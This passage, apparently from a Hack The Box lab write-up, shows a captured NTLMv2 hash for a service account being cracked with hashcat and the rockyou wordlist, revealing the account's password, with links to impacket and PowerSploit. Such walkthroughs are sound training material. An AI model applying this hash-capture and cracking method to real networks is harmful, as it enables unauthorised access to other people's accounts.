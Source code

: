 ```text
[+] Listening for events...
[SMBv2] NTLMv2-SSP Client   : 10.10.10.125
[SMBv2] NTLMv2-SSP Username : QUERIER\mssql-svc
[SMBv2] NTLMv2-SSP Hash     : mssql-svc::QUERIER:39233d0605b79345:A1D5AE507111BE171E97286A7CC3F256:0101  
000000000000C0653150DE09D201C57A7DBA4441AA79000000000200080053004D004200330001001E00570049004E002D00500  
052004800340039003200520051004100460056000400140053004D00420033002E006C006F00630061006C0003003400570049  
004E002D00500052004800340039003200520051004100460056002E0053004D00420033002E006C006F00630061006C0005001  
40053004D00420033002E006C006F00630061006C0007000800C0653150DE09D201060004000200000008003000300000000000  
00000000000000300000C356AB6C8D2E51E4E0341CB545E722DF496ED258A3A0BCDB2EA4A6293FA0D6B70A00100000000000000  
0000000000000000000000900200063006900660073002F00310030002E00310030002E00310034002E00310030000000000000  
00000000000000
[*] Skipping previously captured hash for QUERIER\mssql-svc
[SMBv2] NTLMv2-SSP Client   : 10.10.10.125
[SMBv2] NTLMv2-SSP Username : \gX
[SMBv2] NTLMv2-SSP Hash     : gX:::9400d0376e4e24a0::
[*] Skipping previously captured hash for \g
```

This is great. NTLMv2 hashes include the username in the hash, so we see "mssql-svc" is running the MSSQL instance so that's the user hash we received. I have a beefy GeForce RTX 2080 GPU and hashcat can crack these hashes using purely GPU, so let's copy the hash to that machine and attempt to crack it using the rockyou.txt password list:

```text
λ ./hashcat64.exe -m 5600 ntlmv2 rockyou.txt
hashcat (v5.1.0) starting...

OpenCL Platform #1: NVIDIA Corporation
======================================
* Device #1: GeForce RTX 2080, 2048/8192 MB allocatable, 46MCU

MSSQL-SVC::QUERIER:39233d0605b79345:a1d5ae507111be171e97286a7cc3f256:0101000000000000c0653150de09d201c  
57a7dba4441aa79000000000200080053004d004200330001001e00570049004e002d005000520048003400390032005200510  
04100460056000400140053004d00420033002e006c006f00630061006c0003003400570049004e002d0050005200480034003  
9003200520051004100460056002e0053004d00420033002e006c006f00630061006c000500140053004d00420033002e006c0  
06f00630061006c0007000800c0653150de09d20106000400020000000800300030000000000000000000000000300000c356a  
b6c8d2e51e4e0341cb545e722df496ed258a3a0bcdb2ea4a6293fa0d6b70a00100000000000000000000000000000000000090  
0200063006900660073002f00310030002e00310030002e00310034002e0031003000000000000000000000000000:  
corporate568
```


[1]: https://www.hackthebox.eu/home/users/profile/2570
[2]: https://www.hackthebox.eu/home/users/profile/1190
[3]: https://www.hackthebox.eu
[4]: https://github.com/SecureAuthCorp/impacket/blob/master/examples/mssqlclient.py
[5]: https://github.com/PowerShellMafia/PowerSploit
[6]: https://github.com/SecureAuthCorp/impacket/blob/master/examples/psexec.py